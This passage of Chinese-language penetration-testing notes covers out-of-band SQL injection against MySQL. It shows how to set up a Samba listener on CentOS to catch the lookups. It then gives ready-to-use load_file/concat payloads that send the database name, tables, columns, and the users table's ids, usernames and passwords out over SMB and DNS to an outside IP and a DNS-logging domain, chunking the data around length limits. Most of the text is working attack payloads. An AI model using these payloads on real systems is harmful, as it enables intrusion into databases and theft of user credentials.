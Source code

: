 ###### ②SMB数据外带

* **默认支持TCP/UDP出网方式时可用**，**无长度限制和符号限制**，规避流量监测设备

* Centos7上安装SMB服务

  ```php
  1. 安装smb服务
  	yum install samba -y
  2. 修改配置文件
  	vim /etc/samba/smb.conf
  3. 修改samba日志路径
  	vim /var/log/samba/log.smbd
  4. 利用实时查看日志并匹配结果
  	tail -f /var/log/samba/log.smbd | grep "failed to find service"
  ```

* payload

  ```sql
  1' and load_file(concat('\\\\192.168.172.130\\',(select user()),'t'))%23
  
  1' and load_file(concat('\\\\192.168.172.130\\',(select group_concat(schema_name) from information_schema.schemata),'t'))%23
  ```

###### ③HTTP数据外带

##### e. 注入流程

###### ①获取数据库名

```sql
1' and load_file(concat('\\\\',(select database()),'.Laffrex.eyes.sh\\abc')) --+
```

###### ②获取表名

```sql
1' and load_file(concat('\\\\',(select group_concat(table_name separator '_') from information_schema.tables where table_schema=database()),'.Laffrex.eyes.sh\\abc')) --+
```

###### ③获取字段名

```sql
1' and load_file(concat('//',(select group_concat(column_name separator '_') from information_schema.columns where table_schema=database() and table_name='users'),'.Laffrex.eyes.sh/abc')) --+
```

###### ④获取字段数据

* DNS数据外带有字符大小限制

```sql
#获取id
1' AND load_file(CONCAT('\\\\',(SELECT group_concat(id separator '__') FROM users),'.Laffrex.eyes.sh/abc')) --+					'
#获取username
1' AND load_file(CONCAT('\\\\',(SELECT SUBSTRING(group_concat(username separator '__'), 1, 60) FROM 
users),'.Laffrex.eyes.sh/abc1')) --+		'#本次字符最大长度为63

1' AND load_file(CONCAT('\\\\',(SELECT SUBSTRING(group_concat(username separator '__'), 61, 120) FROM users),'.Laffrex.eyes.sh/abc1')) --+				

1' AND load_file(CONCAT('\\\\',(SELECT substring(group_concat(concat_ws('_',id,username,password) separator '__'),1,45) FROM users),'.Laffrex.eyes.sh/abc')) --+	//本次字符最大长度45
```
